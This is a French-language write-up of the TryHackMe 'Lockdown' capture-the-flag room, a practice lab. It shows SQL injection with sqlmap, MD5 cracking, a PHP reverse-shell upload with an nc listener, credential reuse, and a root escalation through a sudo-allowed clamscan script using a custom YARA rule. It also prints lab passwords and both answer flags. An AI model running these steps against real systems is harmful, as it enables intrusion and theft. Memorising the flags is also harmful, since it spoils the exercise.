





# Lockdown #

## Task 1 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.119.252 lockdown.thm ' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A lockdown.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 19:10 CET
Nmap scan report for lockdown.thm (10.10.119.252)
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 27:1d:c5:8a:0b:bc:02:c0:f0:f1:f5:5a:d1:ff:a4:63 (RSA)
|   256 ce:f7:60:29:52:4f:65:b1:20:02:0a:2d:07:40:fd:bf (ECDSA)
|_  256 a5:b5:5a:40:13:b0:0f:b6:5a:5f:21:60:71:6f:45:2e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Coronavirus Contact Tracer
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Sony X75CH-series Android TV (Android 5.0) (86%), Linux 2.6.32 (86%), Linux 3.10 - 4.11 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.84 ms 10.9.0.1
2   34.18 ms lockdown.thm (10.10.119.252)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 251.03 seconds

```

D'après nmap on a deux service qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   

Quand met le lien lockdown.thm le site essaie de mettre le domaine http://contacttracer.thm.   
Ça ne fonctionne pas.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.28.50 contacttracer.thm ' >> /etc/hosts"   
```

On ajoute contacttracer.thm dans le hosts.   

   
   

On arrive un page d'identification.   

 

On récupère une requête avec burp.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r input.req --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:28:55 /2021-11-04/

[20:28:55] [INFO] parsing HTTP request from 'input.req'
[20:28:55] [INFO] testing connection to the target URL
---
[21:45:55] [WARNING] no clear password(s) found                                                                                                                                                                                              
Database: cts_db
Table: users
[1 entry]
+----+-------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
| id | avatar                        | lastname | password                         | username | firstname    | date_added          | last_login | date_updated        |
+----+-------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
| 1  | uploads/1614302940_avatar.jpg | Admin    | 3eba6f73c19818c36ba8fea761a3ce6d | admin    | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2021-02-26 10:23:23 |
+----+-------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
```

On voit les champs d'identifications sont exploitables à la faille d'injection sql.  
On récupère le nom d'utilisateur admin, ainsi que le mot de passe sous forme de hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti 3eba6f73c19818c36ba8fea761a3ce6d
MD5 [HC: 0] [JtR: raw-md5]

tim@kali:~/Bureau/tryhackme/write-up$ echo '3eba6f73c19818c36ba8fea761a3ce6d' > hash  

tim@kali:~/Bureau/tryhackme/write-up$ john ./hash -w=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
sweetpandemonium (?)
1g 0:00:00:00 DONE (2021-11-04 21:57) 3.846g/s 4791Kp/s 4791Kc/s 4791KC/s sweety65..sweetloveibou
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

On détecte quel type hash c'est. 
On casse le hash avec john the ripper.   
On trouve que le mot de passe est : sweetpandemonium   

 

On se connecte avec les identifiants.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234
```

On écoute le port 1234 pour avoir un shell.   

    

Dans administrator admin mettre un fichier reverse shell en php dans l'avatar.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://lockdown.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/admin                (Status: 301) [Size: 312] [--> http://lockdown.thm/admin/]
/.htpasswd            (Status: 403) [Size: 277]                                 
/build                (Status: 301) [Size: 312] [--> http://lockdown.thm/build/]
/classes              (Status: 301) [Size: 314] [--> http://lockdown.thm/classes/]
/.hta                 (Status: 403) [Size: 277]                                   
/.htaccess            (Status: 403) [Size: 277]                                   
/dist                 (Status: 301) [Size: 311] [--> http://lockdown.thm/dist/]   
/inc                  (Status: 301) [Size: 310] [--> http://lockdown.thm/inc/]    
/index.php            (Status: 200) [Size: 17762]                                 
/libs                 (Status: 301) [Size: 311] [--> http://lockdown.thm/libs/]   
/plugins              (Status: 301) [Size: 314] [--> http://lockdown.thm/plugins/]
/server-status        (Status: 403) [Size: 277]                                   
/temp                 (Status: 301) [Size: 311] [--> http://lockdown.thm/temp/]   
/uploads              (Status: 301) [Size: 314] [--> http://lockdown.thm/uploads/]

```

gobuster nous indique un répertoire uploads.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://lockdown.thm/uploads/reverseShell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at lockdown.thm Port 80</address>
</body></html>
```

Le chemin de ne fonctionne pas, le fichier est surement renommé.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r input.req --dump --flush
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:48:28 /20Lockdown
uploads/1636062420_reverseShell.php
[23:16:31] [INFO] retrieved: 2Database: cts_db
...
+----+-------------------------------------+----------+----------+----------+--------------+---------------------+------------+---------------------+
| id | avatar                              | lastname | password | username | firstname    | date_added          | last_login | date_updated        |
+----+-------------------------------------+----------+----------+----------+--------------+---------------------+------------+---------------------+
| 1  | uploads/1636062420_reverseShell.php | Admin    | <blank>  | admin    | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2021-11-04 21:47:54 |
+----+-------------------------------------+----------+----------+----------+--------------+---------------------+------------+---------------------+
```

On trouve le chemin de notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://lockdown.thm/uploads/1636062420_reverseShell.php
```

On exécute notre reverse shell.   


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:29:42 up  3:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (1053): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@lockdown:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@lockdown:/$ cd /var/www/html
cd /var/www/html/classes/

cat /var/www/html/classes/DBConnection.php
<?php
class DBConnection{

    private $host = 'localhost';
    private $username = 'cts';
    private $password = 'YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE';
    private $database = 'cts_db';
    
    public $conn;
    
    public function __construct(){

        if (!isset($this->conn)) {
            
            $this->conn = new mysqli($this->host, $this->username, $this->password, $this->database);
            
            if (!$this->conn) {
                echo 'Cannot connect to database server';
                exit;
            }            
        }    
        
    }
    public function __destruct(){
        $this->conn->close();
    }
}
?>

```

On obtient un shell on trouve un fichier qui est DBConnection.php qui contient un mot de passe qui est : YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE  
Un nom d'utilisateur : cts.  
Un nom de base de données.  

```bash
www-data@lockdown:/var/www/html$ ss -tpl
ss -tpl
State    Recv-Q    Send-Q        Local Address:Port         Peer Address:Port   
LISTEN   0         80                127.0.0.1:mysql             0.0.0.0:*      
LISTEN   0         128           127.0.0.53%lo:domain            0.0.0.0:*      
LISTEN   0         128                 0.0.0.0:ssh               0.0.0.0:*      
LISTEN   0         128                       *:http                    *:*      
LISTEN   0         128                    [::]:ssh                  [::]:*    

```

On voit que l'on peut aller sur une base de donnée.  

```bash
www-data@lockdown:/var/www/html$ mysql -h 127.0.0.1 -u cts -p
mysql -h 127.0.0.1 -u cts -p
Enter password: YOUMKtIXoRjFgMqDJ3WR799tvq2UdNWE

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 69833
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cts_db             |
+--------------------+
2 rows in set (0.00 sec)
mysql> use cts_db; 

use cts_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_cts_db |
+------------------+
| barangay_list    |
| city_list        |
| establishment    |
| people           |
| state_list       |
| system_info      |
| tracks           |
| users            |
+------------------+
8 rows in set (0.00 sec)

```
On retrouve la base de donnée exfiltrée au début de write up.  
Le seul pas que l'on avait était : sweetpandemonium   

**What is the user flag?**  

```bash
www-data@lockdown:/$ su cyrus
su cyrus
Password: sweetpandemonium

cyrus@lockdown:/$ cd /home/cyrus
cd /home/cyrus
cyrus@lockdown:~$ ls 
ls 
quarantine  testvirus  user.txt
cyrus@lockdown:~$ cat user.txt
cat user.txt
THM{w4c1F5AuUNhHCJRtiGtRqZyp0QJDIbWS}
```

Avec le mot de passe on se connecte sur le compte de cyrus.  
Dans le répertoire cyrus on voit un fichier user.txt.  
On le lit et on a le flag.  
Le flag est : THM{w4c1F5AuUNhHCJRtiGtRqZyp0QJDIbWS}  

**What is the root flag?**  

```bash
cyrus@lockdown:~$ sudo -l
sudo -l
[sudo] password for cyrus: sweetpandemonium

Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
```

On voit que l'on peut exécuter scan.sh avec les droits root.  

```bash
cyrus@lockdown:~$ cat  /opt/scan/scan.sh
cat  /opt/scan/scan.sh
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

Le fichier scan vérifier sur le fichier n'est pas un virus, si c'est un virus il le copie dans /home/cyrus/quarantine.   

```bash
cyrus@lockdown:~$ sudo -u root /opt/scan/scan.sh
sudo -u root /opt/scan/scan.sh
Enter path: /root/
/root/
/root/.bashrc: OK
/root/root.txt: OK
/root/.profile: OK

----------- SCAN SUMMARY -----------
Known viruses: 1
Engine version: 0.103.2
Scanned directories: 1
Scanned files: 3
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.095 sec (0 m 0 s)
Start Date: 2021:11:04 23:24:28
End Date:   2021:11:04 23:24:28
```

Le scan peut lire le répertoire root et les fichiers.  

```bash
rule CheckFileName
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $a or $b
}
```

On fabrique une règle qui dit à clamscan qui si un fichier contient la chaîne root ou THH c'est un virus. 

```bash
cyrus@lockdown:~$ cp rules.yar /var/lib/clamav/
```

On copie notre règle dans /var/lib/clamav/  

```bash
cyrus@lockdown:~$ sudo -u root /opt/scan/scan.sh
Enter path: /root/
/root/.bashrc: YARA.CheckFileName.UNOFFICIAL FOUND
/root/.bashrc: copied to '/home/cyrus/quarantine/.bashrc'
/root/root.txt: YARA.CheckFileName.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'
/root/.profile: OK

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 1
Scanned files: 3
Infected files: 2
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.013 sec (0 m 0 s)
Start Date: 2021:11:04 23:47:14
End Date:   2021:11:04 23:47:14
```

On exécute le scan, root.txt est considéré comme un virus il est copié.   

```bash
cyrus@lockdown:~$ cd ./quarantine/
cyrus@lockdown:~/quarantine$ ls
root.txt
cyrus@lockdown:~/quarantine$ cat root.txt
THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}
```

On lit le fichier root.txt dans quarantine et on a notre flag.   
Le flag est : THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}  